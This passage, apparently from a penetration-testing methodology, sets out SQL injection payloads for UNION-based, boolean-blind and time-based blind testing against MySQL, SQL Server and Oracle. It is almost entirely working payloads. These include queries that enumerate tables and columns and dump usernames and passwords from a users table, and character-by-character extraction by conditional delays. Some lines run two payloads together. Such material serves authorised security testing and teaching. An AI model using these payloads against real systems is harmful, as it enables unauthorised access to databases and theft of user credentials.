     Continue incrementing until an error occurs
    
- Test UNION SELECT payloads with the correct number of columns:
    
    ```
    ' UNION SELECT 1,2,3 --
    ' UNION SELECT null,null,null --
    ```
    
- Replace numeric placeholders with useful data:
    
    ```
    ' UNION SELECT null, table_name, null FROM information_schema.tables --
    ' UNION SELECT null, column_name, null FROM information_schema.columns WHERE table_name='users' --
    ' UNION SELECT null, username, password FROM users --
    ```
    

#### 2.3 Boolean-Based Blind SQLi Testing

- Test with conditional statements that result in visible differences:
    
    ```
    ' AND 1=1 --    (true condition, should return normal results)
    ' AND 1=2 --    (false condition, should return no results)
    ```
    
- Use more complex boolean conditions to extract data:
    
    ```
    ' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' --
    ```
    
- For each character position, iterate through possible values
    

#### 2.4 Time-Based Blind SQLi Testing

- Use time delay functions when no visible output difference:
    - MySQL:
        
        ```
        ' AND IF(1=1, SLEEP(5), 0) --' AND IF((SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a', SLEEP(5), 0) --
        ```
        
    - SQL Server:
        
        ```
        ' WAITFOR DELAY '0:0:5' --' IF (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' WAITFOR DELAY '0:0:5' --
        ```
        
    - Oracle:
        
        ```
        ' AND CASE WHEN (1=1) THEN dbms_pipe.receive_message('RDS',5) ELSE NULL END --
        ```
        